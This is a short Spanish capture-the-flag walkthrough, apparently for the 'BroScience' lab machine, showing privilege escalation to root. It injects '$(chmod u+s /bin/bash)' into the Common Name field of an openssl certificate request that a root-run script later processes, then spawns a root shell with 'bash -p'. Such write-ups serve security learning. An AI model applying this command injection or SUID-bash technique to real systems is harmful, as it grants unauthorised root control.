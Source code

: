 ```
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /tmp/temp.key -out /tmp/temp.crt -days 365 <<<"$country
```

También lo ejecutamos pero le modificamos algunas cosas. Y luego le inyectamos nuestro código cuando nos pregunte por el "CommonName"

```
bill@broscience:~/Certs$ openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout test.key -out test.crt -days 1

Generating a RSA private key
.......................................++++
...................................................++++
writing new private key to 'test.key'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
Email Address []:
```

Esperamos un poco a que root ejecute el script y listo, podemos hacer "bash -p"

```
bill@broscience:~/Certs$ bash -p 
bash-5.1# whoami
root
bash-5.1#
```
